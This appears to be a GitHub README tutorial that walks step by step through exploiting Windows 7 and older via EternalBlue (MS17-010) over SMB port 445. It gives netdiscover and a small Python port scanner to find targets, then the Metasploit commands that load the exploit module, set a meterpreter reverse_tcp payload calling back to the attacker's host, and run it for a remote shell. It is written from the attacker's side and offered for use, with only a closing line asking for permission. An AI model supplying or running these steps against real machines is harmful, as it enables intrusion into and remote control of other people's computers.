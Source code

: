 # H4CK WINDOWS < 7 👓

Windows is go to os for every nerds, and many of them use windows 7 or down . As an attacker we could take this advantage to hack into system 👨‍💻 . But make sure that target's firewall is off ( already off in majority of cases 😉 )

> The attack we gonna perform is named <a href="https://en.wikipedia.org/wiki/EternalBlue">__Eternalblue__</a> an attack based on `SMB` or port `445`  . This attack was discovered by <a href="https://www.nsa.gov/">__NSA__ [ National Security Agency ]</a> and later leaked by <a href="https://en.wikipedia.org/wiki/The_Shadow_Brokers">__Shadow Brokers__</a> .
>
> - [EternalBlue (wikipedia)](https://en.wikipedia.org/wiki/EternalBlue)
> - [CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-0144)

<br />

## Lets attack 🚀🐱‍💻

>Requirements ❗
>
>- victim running windows 7 or down [ firewall must be turned off ]
>- attacker and target must be connected to same network [ at least for this demo ]
>- a hacking linux distro like <a href="https://www.kali.org/">Kali</a> or <a href="https://www.parrotsec.org/">Parrot os</a> or a system with <a href="https://www.metasploit.com/">Metasploit</a> 

We are going to use <a href="https://www.metasploit.com/">__METASPLOIT__</a> because it makes our life so easy 😊

let rock'n roll 👩‍🚀

#### 1 - Scan target 🔍

You can use tools like [__NMAP__](https://nmap.org/) to scan full network, but it can take some time ⏳, so we are gonna use something called `netdiscover` and a `custom python script` .

- Scan network this will return target's IP [ dont't forget to copy this ]

```bash
$ sudo netdiscover
```

- You can create your own scanner using python 😁

  create a file named `scanner.py` with this content

```python
import socket

ip = "" # IP of target
port = 445

try:
    sock = socket.socket()
    sock.connect((ip, port))
    print("[+] {str(port)} is open")
except:
    print(f"[-] {str(port)} is close")
```

run script using

```bash
$ python3 scanner.py
```



#### 2. Attack 💣

Fire up __METASPLOIT__ 🔥

use `use exploit/windows/smb/ms17_010_eternalblue`

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

This is a Metasploit prebuild module , you can see the options by typing `show options`

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

We will hit up with a lot of options but we are interested only on `LHOST` `LPORT` `RHOSTS`, `PAYLOAD`,

You can set payload by

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Metasploit is kind enough to auto configure `LPORT` & `LHOST` ,

you can change it whenever you need

```bash
set RHOSTS <TARGET_IP>
# change if you want or you see `127.0.0.1` beside `LHOST`
set LHOST <YOUR_IP>
set LPORT <ANY_PORT>
```

simply run the exploit by typing `run` or `exploit`

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

If you done in the right way 🛣 You should get a [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) shell back

<br />

CONGRATULATIONS 🥳 You just hacked in to a system 🐱‍💻

__DO NOT HACK ANYONE, UNLESS YOU HAVE PERMISSIONS 👩‍⚖️__

